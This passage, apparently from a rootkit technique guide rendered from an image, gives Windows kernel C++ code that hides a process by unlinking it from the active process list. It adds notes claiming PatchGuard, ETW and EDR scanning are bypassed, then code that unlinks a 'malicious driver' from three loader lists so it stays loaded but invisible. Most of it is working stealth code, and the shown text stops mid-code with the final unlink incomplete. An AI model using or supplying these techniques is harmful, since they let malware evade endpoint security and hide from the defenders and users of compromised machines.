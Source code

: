 ```cpp

if (!pFlink || !pBlink || !MmIsAddressValid(pFlink) || !MmIsAddressValid(pBlink)) {
    ObDereferenceObject(pTargetProcess);
    return STATUS_INVALID_PARAMETER;
}

// Update forward link of previous entry
pBlink->Flink = pFlink;

// Update backward link of next entry
pFlink->Blink = pBlink;

// Orphan target process links (optional, for stealth)
pActiveLinks->Flink = pActiveLinks;
pActiveLinks->Blink = pActiveLinks;

ObDereferenceObject(pTargetProcess);
```

**Detection Evasion:**
- PatchGuard: NOT TRIGGERED (data-only modification)
- ETW Process Enumeration: BYPASSED (process not in list)
- EDR Process Scanning: BYPASSED (hidden from NtQuerySystemInformation)

**Limitations:**
- Handle enumeration still works (NtQuerySystemInformation with SystemHandleInformation)
- Object Manager still tracks process object
- Process callbacks already fired (unlinking doesn't remove from callback lists)

### Technique 2: LDR_DATA_TABLE_ENTRY Triple Unlinking (Driver Hiding)

**Objective:** Hide malicious driver from driver enumeration APIs and memory scanning

**Method:**
1. Locate target driver's LDR_DATA_TABLE_ENTRY via DriverSection pointer
2. Unlink from `InLoadOrderLinks`
3. Unlink from `InMemoryOrderLinks`
4. Unlink from `InInitializationOrderLinks`
5. Driver remains loaded and functional but invisible to enumeration

**Kernel Code Example:**

```cpp
// Assume pDriverObject is pointer to target DRIVER_OBJECT

// Get LDR_DATA_TABLE_ENTRY from DriverSection
PLDR_DATA_TABLE_ENTRY pLdrEntry = (PLDR_DATA_TABLE_ENTRY)pDriverObject->DriverSection;
if (!pLdrEntry) return STATUS_UNSUCCESSFUL;

// Unlink from InLoadOrderLinks
PLIST_ENTRY pLoadFlink = pLdrEntry->InLoadOrderLinks.Flink;
PLIST_ENTRY pLoadBlink = pLdrEntry->InLoadOrderLinks.Blink;
pLoadBlink->Flink = pLoadFlink;
pLoadFlink->Blink = pLoadBlink;

// Unlink from InMemoryOrderLinks
PLIST_ENTRY pMemFlink = pLdrEntry->InMemoryOrderLinks.Flink;
PLIST_ENTRY pMemBlink = pLdrEntry->InMemoryOrderLinks.Blink;
pMemBlink->Flink = pMemFlink;
pMemFlink->Blink = pMemBlink;

// Unlink from InInitializationOrderLinks
PLIST_ENTRY pInitFlink = pLdrEntry->InInitializationOrderLinks.Flink;
PLIST_ENTRY pInitBlink = pLdrEntry->InInitializationOrderLinks.Blink;
pInitBlink->Flink = pInitFlink;
```